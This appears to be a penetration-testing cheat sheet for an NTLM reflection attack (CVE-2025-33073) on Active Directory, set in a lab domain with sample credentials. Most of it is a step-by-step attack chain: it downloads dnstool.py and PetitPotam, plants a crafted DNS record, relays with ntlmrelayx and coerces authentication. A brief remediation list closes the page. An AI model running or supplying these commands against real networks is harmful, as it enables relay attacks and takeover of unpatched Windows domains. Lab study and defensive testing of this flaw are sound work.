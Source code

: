 # NTLM Reflection (CVE-2025-33073)


## Required Tools

```bash
# dnstool.py
wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/refs/heads/master/dnstool.py

# petitpotam.py
wget https://raw.githubusercontent.com/topotam/PetitPotam/refs/heads/main/PetitPotam.py
```

## Requirements

- Patch for CVE-2025-33073 not installed
- SMB Signing not required
- Ability to create DNS records (Default)


> Create DNS Record
```python
python3 dnstool.py -u 'sevenkingdoms.local\rc4' -p 'Password123' 'DC IP' -a add -d 'LISTENER IP' -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' 
```
> Verify Record points to listener
```python
python3 dnstool.py -u 'sevenkingdoms.local\rc4' -p 'Password123' 'DC IP' -a query -d 'LISTENER IP' -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA'
```
> Setup ntlmrelayx
```python
impacket-ntlmrelayx -t smb://the-eyrie.sevenkingdoms.local -smb2support
```
> Coerce
```python
python3 PetitPotam.py -d sevenkingdoms.local -u rc4 -p 'Password123' localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 'the-eyrie.sevenkingdoms.local'
```

#### Cleanup
```python
python3 dnstool.py -u 'sevenkingdoms.local\rc4' -p 'Password123' 'DC IP' -a ldapdelete -d 'LISTENER IP' -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA'
```

## Remediation

- Install patch for [CVE-2025-33073](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-33073)
- Ensure "Authenticated Users" are not able to create DNS records
- Ensure SMB signing is enforced on all systems